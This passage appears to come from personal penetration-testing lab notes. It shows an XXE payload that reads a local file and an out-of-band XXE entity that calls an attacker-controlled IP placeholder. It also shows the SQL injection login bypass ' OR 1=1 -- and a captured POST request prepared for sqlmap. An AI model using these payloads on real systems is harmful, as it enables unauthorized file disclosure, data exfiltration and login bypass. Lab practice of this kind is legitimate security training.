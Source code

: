 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///proof.txt">
]>
<response>
	<id>1</id>
	<name>hahaha</name>
	<proffesion>hahaha</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
###### Payload - Out of band 
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```


##### SQL Injection

######  Piano Protocol SQLmap
![[Pasted image 20241209214008.png]]
on the login page testing the default payload `' OR 1=1 --` in the `username` & `password` fields redirect to `/auth` and show that it is `MYSQL`
![[Pasted image 20241209222255.png]]
login parameters for registration
![[Pasted image 20241209214705.png]]
user created - a `/auth` popped up before the login screen - `dtype` popped up again
![[Pasted image 20241209214826.png]]
save the `post request` to begin `SQL` testing
```http
POST /auth HTTP/1.1
Host: piano
Content-Length: 794
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://piano
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTRUOcxXGzadrReMb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://piano/register
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d82d1b45b383e43d6dd53de569b0ee5a; XSRF-TOKEN=eyJpdiI6IlpRRnYwWFVmRThvQ3ZCVitZb2hWeWc9PSIsInZhbHVlIjoiWUdwQy9Kc3N5WmxtY0loaVloSThQbjY4OWpJVmljRS8xck9TMk1kMysrQWlySjNMVWJUc0ZxckVPRUp0dlpxSnM0MXpDZm1VaXlBWjJpOUs1L1lrRUdnU0ZUbzdGZlZaL1A1OWF2REpJNGxaZ0pWZlYxWktsaFBwUFplUEY2clgiLCJtYWMiOiIyNzQ3MzhjMmZmMmY0YTU4ZmIwMTAxY2U2NDZlMjg0ZWU1M2MxMzBkYTdmYzg3YTkwOGFmNDk2NjU1OTUyYTY4In0%3D; laravel_session=eyJpdiI6IjdqeU5EZlBVbFN3aHpZY3Y2eWt0UEE9PSIsInZhbHVlIjoiN29JMFlGS2lxZ0RSOG1XRW1UNWZtNWo5QW5Bb0JMVFMxVWFOUjYydzlMejI3MVl0bHNhb2c2TlE3UWxDUjB6aXN6alJaMXRzalNLb05iMDNsUHpSLzJ6SXI2TENpcE5MaDluVERyeXZCTENuUHRsU1VET2dvb1RhNUROTGpvNGMiLCJtYWMiOiI4NDk1MDg1YzBkYzg2NTUxN2Q0MDQzZDM1ZTllOTdlZThhMjNhZjE5YTZkOGIwNWUzZmY1ZmQzMDZiOGI3MzljIn0%3D
```